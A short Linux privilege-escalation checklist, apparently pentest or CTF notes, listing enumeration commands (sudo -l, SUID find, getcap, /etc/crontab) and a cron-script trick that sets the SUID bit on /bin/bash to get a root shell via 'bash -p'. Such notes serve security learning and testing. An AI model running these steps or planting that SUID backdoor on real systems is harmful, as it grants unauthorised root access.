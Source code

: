 - #### Check if Kernel / OS is out of date

Find a known CVE and its related exploits. Make sure you understand what the exploit does so as not to break anything on the server.

- #### Look for programs that your user can run with sudo rights

Run `sudo -l`

Use [GTFOBins](https://gtfobins.github.io/) to find information on how binaries with sudo rights can be used.

- #### Look for programs with SUID or GUID bit set

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/#+suid) to find attack vectors

- #### Find binaries with *Capabilities*

```bash
getcap -r / 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/) to find attack vectors

- #### Look for crontab vulnerabilities

```bash
cat /etc/crontab
```

If you can modify a script that is run by cron you can get root access.

e.g.

```bash
#!/bin/bash
chmod u+s /bin/bash #Set the SUID bit on /bin/bash
````
run the command

```bash
/bin/bash -p
```

to run bash in privileged mode.


